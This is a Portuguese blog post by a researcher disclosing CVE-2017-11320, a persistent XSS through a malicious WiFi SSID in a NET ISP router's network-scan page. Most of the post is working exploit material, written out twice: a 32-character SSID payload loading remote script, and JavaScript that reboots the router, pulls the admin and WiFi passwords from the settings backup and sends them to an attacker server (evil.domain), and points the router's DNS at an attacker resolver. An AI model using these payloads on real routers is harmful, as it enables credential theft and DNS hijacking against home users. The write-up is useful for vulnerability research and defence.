


1501632000
Outro post em português, e adivinhem! É sobre a NET!
CVE-2017–11320 : XSS Persistente através de SSID malicioso permite roubo de credenciais, reboot do roteador e até DNS Poisoning.
Tudo começou quando a nossa querida NET decidiu bloquear o acesso a qualquer SSH externo, sim não consigo mais acessar nenhum servidor pela porta 22. Qual seria a solução? Ownar o roteador ! Eu consegui ? Até agora não , mas achei esse XSS.
A vulnerabilidade reside na página de scan de redes WiFi próximas [1](wlscanresults.html) que não faz nenhum tipo de filtragem no SSID das mesmas.
 wlscanresults.html Sim, isso é a senha dela
Quando encontrei essa página, logo peguei o celular da minha namorada e subi um HotSpot com SSID ‘><script>alert(1)</script> e PAM ! Alert na cara. Bem legal e tal, mas um alert não é vulnerabilidade. Um grande problema com o SSID é que ele só aceita 32 carácteres, , então como fazer um XSS que realmente faça alguma coisa com só 32 chars ?
A forma mais fácil de diminuir o payload é carregando o JavaScript externamente utilizando o ‘src’, algo como :
'><script src="http://evil.com/"></script>
Mas isso tem 42 carácteres :( Note uma das coisas que posso controlar é o nome do domínio. Então fui caçar o menor domínio que consegui encontrar para comprar. depois de DUAS HORA PROCURANDO eu consegui o domínio 6ks.me , um achado. Estamos agora em 40 carácteres, temos que remover 8. Outra idéia foi remover o “http://” , mas o browser vai tentar acessar 192.168.0.1/6ks.me . Me lembro de algum CTF que o que vem antes de “://” sempre especifica o protocolo a ser usado ( como em vnc:// magnet:// etc:// ) , e caso o protocolo não fosse especificado ele usaria o protocolo atual. Assim, consigo remover o “http:” , faltando retirar 3 chars. A barra no final também não é necessária, 2 chars. Para finalizar, a maioria dos browsers não se importa se você não colocar aspas no atributo.
E com 32 chars cravados :
'><script src=//6ks.me></script>
Agora conseguimos injetar qualquer JavaScript que precisarmos. Mas o que podemos fazer? Podemos utilizar o XMLHttpRequest para fazer qualquer requisição para o roteador. Fico fuçando o roteador e vendo as requisições que ele faz e vejo que depois de fazer alguma alteração importante ele faz um request para “rebootinfo.cgi” para reiniciar o modem.
Uma coisa interessante é que no código de todas as páginas existe uma variável chamada “sessionKey” :
var sessionKey = '540153280';
Essa key muda em toda requisição e é passada como parâmetro GET em todos os .cgi , se não for válida ele não realiza a ação. Alguma forma tosca de CSRF Token.
Então antes de fazer a request para “rebootar” o modem, eu preciso fazer outro request para uma página qualquer para pegar a sessionKey. Abaixo o JS à ser injetado no browser :
function reboot_router() {
// XSS reiniciar modem
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
// Por quê? Porque é divertido ver um XSS fazer o LED apagar
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/resetrouter.html", false); // GET na interface
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Procurando pelo sessionKey
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rebootinfo.cgi?sessionKey="+sessionKey, false); // Requisita a página de reboot com a sessionKey
xmlhttp.send();
}
Fuçando mais um pouco encontro a página backupsettings.cmd que nada mais é um XML com todas as configurações do modem, inclusive a senha do WiFi em Base64 e a senha do Administrador em PlainText. O mais legal é que não precisa da sessionKey.
function get_passwords(attackers_server) {
// attackers_server = servidor para enviar as credenciais
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
// Pegar a senha do WiFi e a senha do administrador
// através do backup das configurações
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/backupsettings.cmd", false); // XML da configuração do roteador
xmlhttp.send();
var k = xmlhttp.responseText.indexOf("Admin") ; // Procurando pela senha do Administrador
var y = xmlhttp.responseText.indexOf("KeyPassphrase") ; // Procurando pela senha do WiFi
// Adicionando uma imagem na página atual para enviar as credenciais através de GET para o servidor do atacante
document.write('<img src="'+attackers_server+'?net='+ encodeURIComponent(xmlhttp.responseText.slice(k,k+100)+xmlhttp.responseText.slice(y,y+80))+'">');
}
Por fim, mas não menos importante. Alterando o DNS do roteador nós conseguimos DNS Poisoning.
function dns_poisoning(attackers_dns) {
// attackers_dns = servidor DNS malicioso
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ caralho esse código ta muito feio, desculpa mundo
// Altera os servidores de DNS para o do atacante
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.html", false);
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Procurando pelo sessionKey
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas
var i_wanip = xmlhttp.responseText.indexOf("wanip") ;
var wanip = xmlhttp.responseText.slice(i_wanip,i_wanip+30).match(/'([^']+)'/)[1] ;
var i_wansubnet = xmlhttp.responseText.indexOf("wansubnet") ;
var wansubnet = xmlhttp.responseText.slice(i_wansubnet,i_wansubnet+30).match(/'([^']+)'/)[1] ;
var i_wangatewayip = xmlhttp.responseText.indexOf("wangatewayip") ;
var wangatewayip = xmlhttp.responseText.slice(i_wangatewayip,i_wangatewayip+30).match(/'([^']+)'/)[1] ;
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.cgi?enblDhcpClnt=0&wanIpAddress="+wanip+"&wanIfName=wanbridge&wanSubnetMask="+wansubnet+"&wanIntfGateway="+wangatewayip+"&dnsPrimary="+attackers_dns+"&dnsSecondary="+attackers_dns+"&sessionKey="+sessionKey, false);
xmlhttp.send(); // Fazendo a requisiço para SALVAR as novas configurações do DNS
// Depois de salvar, precisamos aplicar as configurações, fuck logic
//Getting a brand NEW SessionKey
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Procurando pelo sessionKey
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/wandnscfg.cmd?sessionKey="+sessionKey, false); // Aplicando as confs
xmlhttp.send();
}
// Vulnerable URL : https://your.rou.ter.ip/wlscanresults.html
// XSS through SSID : '><script src=//6ks.me></script> ( Exactly 32 bytes u_u )
// ^
// 5char domains are running | 'src' does not requires quotes , and passing the URL with ony '//'
// out, grab yours ! +---> it will cause the browser to make the request with the current protocol,
// which is HTTP , duh
// Below is the content of 6ks.me
// index.html ( which is just a JavaScript actually, but we have to use the index to fit the 32 chars ) :
function get_passwords(attackers_server) {
// attackers_server = server to send the credentials
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
// XSS to get Admin's login/passwd + Wifi passphrase
// from backup settings
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/backupsettings.cmd", false); // GET the Backup XML
xmlhttp.send();
var k = xmlhttp.responseText.indexOf("Admin") ; // Search for Admin's Login and Password
var y = xmlhttp.responseText.indexOf("KeyPassphrase") ; // Search for Wifi PassPhrase
// Add a img requesting the attacker website with the leaked passwords in the GET parameters
document.write('<img src="'+attackers_server+'?net='+ encodeURIComponent(xmlhttp.responseText.slice(k,k+100)+xmlhttp.responseText.slice(y,y+80))+'">');
}
function reboot_router() {
// XSS + CSRF reboot router
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
// Why? Because It's fun to watch a XSS doing 'physical' stuff
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/resetrouter.html", false); // GET the page of the reset interface
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rebootinfo.cgi?sessionKey="+sessionKey, false); // Request the reboot page with the CSRF token
xmlhttp.send();
}
function dns_poisoning(attackers_dns) {
// attackers_dns = malicious DNS Server
// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ holy shit my code is ugly as fuck , sorry world
// Alter the DNS Config of the Router
// changing the Primary and Secondary DNS to the attacker's one
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes
var i_wanip = xmlhttp.responseText.indexOf("wanip") ;
var wanip = xmlhttp.responseText.slice(i_wanip,i_wanip+30).match(/'([^']+)'/)[1] ;
var i_wansubnet = xmlhttp.responseText.indexOf("wansubnet") ;
var wansubnet = xmlhttp.responseText.slice(i_wansubnet,i_wansubnet+30).match(/'([^']+)'/)[1] ;
var i_wangatewayip = xmlhttp.responseText.indexOf("wangatewayip") ;
var wangatewayip = xmlhttp.responseText.slice(i_wangatewayip,i_wangatewayip+30).match(/'([^']+)'/)[1] ;
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.cgi?enblDhcpClnt=0&wanIpAddress="+wanip+"&wanIfName=wanbridge&wanSubnetMask="+wansubnet+"&wanIntfGateway="+wangatewayip+"&dnsPrimary="+attackers_dns+"&dnsSecondary="+attackers_dns+"&sessionKey="+sessionKey, false);
xmlhttp.send(); // Send the request to SAVE the Primary and Secondary DNS with the CSRF Token
//After saving we need to apply the settings. yeah, fuck logic --'
//Getting a brand NEW SessionKey
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
xmlhttp.send();
var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET", "/wandnscfg.cmd?sessionKey="+sessionKey, false); // GET the apply DNS page
xmlhttp.send();
}
// Choose your path !
//get_passwords("http://evil.domain/") ;
//reboot_router();
dns_poisoning("1.3.3.7")